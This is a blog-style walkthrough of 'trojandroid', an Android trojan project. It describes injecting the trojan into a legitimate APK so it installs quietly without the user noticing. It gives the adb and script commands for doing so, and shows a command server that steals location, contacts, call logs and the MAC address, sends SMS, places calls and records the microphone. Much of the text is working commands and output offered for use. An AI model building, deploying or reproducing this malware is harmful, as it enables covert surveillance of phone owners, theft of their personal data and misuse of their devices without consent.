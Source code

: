 An Android Trojan
==

I'm gonna describe a little project I made, "**trojandroid**",
the first part of this project was to make a simple trojan app, to get information from the phone or to perform some remote action with the phone (send sms ...).
the second part was to inject this trojan into another app package (APK), so the trojan can be quietly install without the user noticing, the example I will take here will be with the package of [get10](https://github.com/remijouannet/get10).

this project is available on Github, three repo are parts of this project :

 - the trojan app, made with android studio : https://github.com/remijouannet/trojandroid_app
 - the server part, to talk with the trojan : https://github.com/remijouannet/trojandroid_server
 - the script to inject the trojan into an APK : https://github.com/remijouannet/trojandroid_mixapk
 - get10 : https://github.com/remijouannet/get10



trojandroid_app
--

The first thing to do is to open the project with android studio :

>\# git clone git@github.com:remijouannet/trojandroid_app.git


Try to build the app and launch it on your phone.
this app don't use any java library who isn't include in the android SDK to avoid error when it will be inject in other app.
The Trojan configuration is hardcode to avoid the dependence with any external XML.

So you're gonna have to modify the code yourself if you want to test it. the only code to modify is in **trojan.android.android_trojan.action**, modify the following code in the class **ConnectionServerThread**

>this.host = "pi.remijouannet.com"; //IP or domain name of the Trojan server

You can modify the "port" variable if you want, but it isn't recommended, you can have some errors with a non standard port for https.

Run the app on your phone or on the emulator (MaJ+F10), the generate APK will be use later.

>app/build/outputs/apk/app-debug.apk

the app is pretty simple, it's just an infinity loop in a background service who ask every 4000 seconds to the Trojan server if he had to do something, if he had he try to do it and send the result to the Trojan app, the service is relaunch every time the user unlock his phone.

trojandroid_mixapk
--

So this is a python script who use the wonderful [APKTOOL](https://ibotpeaches.github.io/Apktool/) to inject the trojan into another APK.

the script unpack the two APK, copy and modify the smali code of the trojan into get10 package, a few modification in the manifest is of course necessary, after this get10 can be repack, install and use without any problem.

the help message of the script

>\#  python mixapk.py -h

```
usage: mixapk.py [-h] [--apks trojanApk apkToInfect] [--adb]

ACTION

optional arguments:
  -h, --help            show this help message and exit
 --apks trojanApk apkToInfect specify the Trojan Apk and the APk to Infect
 --adb                 install the final APK with adb
```

So you have to have the Trojan APK and an APK of another app ([get10](https://play.google.com/store/apps/details?id=com.remijouannet.get10) for this example)
([a little howto I find to extract an installed app of your phone](http://codetheory.in/get-application-apk-file-from-android-device-to-your-computer/))

>  \# ./adb shell pm list packages | grep get10

```
package:com.remijouannet.get10
```

>  \# ./adb shell pm path com.remijouannet.get10

```
package:/data/app/com.remijouannet.get10-1/base.apk
```

>  \# ./adb pull /data/app/com.remijouannet.get10-1/base.apk && mv base.apk /tmp/

```
7544 KB/s (3117111 bytes in 0.403s)
```

>  \# mixapk.py --apks /PathTotrojandroid_app/app/build/outputs/apk/app-debug.apk /tmp/base.apk

let's do the magic.
if you didn't have any errors, you should find a file "app-final.pak" in your current directory.

if you have your phone in debug mode, you can push the apk to it with a simple adb command:

>\# adb install app-final.apk

trojandroid_server
--

the last component of the project, it's a simple flask script who expose webservice to interact with the trojan.

the trojan launch a background service who's gonna call the webservice continually to see if their is action to execute (send a sms, get the mac address ...), if an order,is given to the trojan, the answer is send from the trojan to the server to an another webservice.

so first of all install trojandroid_server from git


>\# git clone https://github.com/remijouannet/trojandroid_server.git

>\# pip install -r requirements.txt

>\# python setup.py install

after this you can launch teh server with the cmd androidtrojan

>\# androidtrojan -h

```
usage: androidtrojan [-h] [--location] [--contacts] [--calllogs] [--packages]
                     [--mac] [--sendsms PhoneNumber Message]
                     [--call PhoneNumber calltime] [--recordmic recordtime]
                     [-v] [-s folder]

ACTION

optional arguments:
  -h, --help            show this help message and exit
  --location            Get Location
  --contacts            Get Contacts
  --calllogs            Get calllogs
  --packages            Get installed packages
  --mac                 Get Mac address
  --sendsms PhoneNumber Message
                        Send SMS
  --call PhoneNumber calltime
                        Call a number for X millisecondes
  --recordmic recordtime
                        Record mic sound for X millisecondes and receive the
                        audio file
  -v, --verbose         verbose
  -s folder, --ssl folder
                        Folder with app.crt and app.key for https
```

per default, the android trojan use https, so you have to use the script ssl.sh in the repo to generate private/public key, after that you can just launch a command to get information from the trojan.

example to get the mac adress

>\# sudo androidtrojan -s /home/pi/git/trojandroid_server/ssl/ --mac -v
```
 * Running on https://192.168.1.36:443/ (Press CTRL+C to quit)
 * Restarting with stat
192.168.1.50 - - [08/Jul/2015 19:38:44] "GET /action HTTP/1.1" 200 -
192.168.1.50 f8:e0:79:ab:8c:88
f8:e0:79:ab:8c:88
192.168.1.50 - - [08/Jul/2015 19:38:45] "POST /result HTTP/1.1" 200 -
```
